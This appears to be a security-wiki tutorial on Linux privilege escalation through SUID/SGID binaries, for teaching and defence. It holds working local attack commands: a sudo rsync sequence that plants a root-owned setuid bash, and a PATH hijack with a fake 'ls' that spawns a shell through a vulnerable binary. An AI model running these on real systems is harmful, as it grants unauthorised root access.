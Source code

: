 # SUID/SGID Binaries

On UNIX-like systems, binaries have permissions, just like any other file. Some of them often are over-privileged, sometimes allowing attackers to escalate their privileges on the system. The common permissions are read, write, execute. The extended ones are setuid, setgid, sticky bit, and so on.

The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the `s` or `S` permission in the file user or group owner permissions (i.e. `---s--s---`). When the file permissions features an uppercase `S` instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights.

> Limitations
> 
> * Just like capabilities, setuid and setgid bits are unset when a file is copied with `cp` or when its content changes.
> * Some partitions of the UNIX file system can be mounted with the `nosuid` option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like `/tmp` or`/run`. Searching the `/proc/mounts` pseudo-file for a `nosuid` flag can help find these partitions.

All suid or sgid-enabled files the user can have access to can be listed with the following command.

```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
```

Vulnerable programs with these permissions are often targeted by attacker to obtain the user (for setuid) or group (for setgid) privileges. There are many techniques that attackers can use to hijack these binaries and obtain the associated rights. Here is an example:
```bash
$ cd /home/dev/
$ cp /bin/bash app-production/bash
$ chmod u+s app-production/bash
$ sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/
$ /opt/app/bash -p
```
### Living of the land
Using standard binaries features to bypass security restrictions is called Living off the land.
### Relative path calls

If a SUID/SGID binary makes calls to programs using relative paths instead of absolute paths, attackers can try to make the binary run a program controlled by the attacker. Let's take this vulnerable program as an example : 


```c
int function(int argc, char *argv[]){
/* ... */
 system("ls") // instead of system("/usr/bin/ls")
/* ... */
}
```


In the example above, the SUID/SGID binary calls the `ls` program using a relative path. An attacker can try to create a `ls` program somewhere he has write access to and edit the `PATH` environment variable so that his custom program is executed when running the SUID/SGID binary.

```bash
mkdir -p /tmp/attacker
cd /tmp/attacker && printf '#!/bin/sh\nexec /bin/sh\n' > /tmp/attacker/ls
chmod +x /tmp/attacker/ls 
PATH=/tmp/attacker:$PATH ./vuln
```

When the `vuln` program will be executed, the malicious `ls` program will be called and a shell will be opened. 

### Binary exploitation

In some cases, the binary that has SUID/SGID permissions can be reverse-engineered and attackers find ways to change the execution flow of that program to make it run something else.

## Resources

[https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)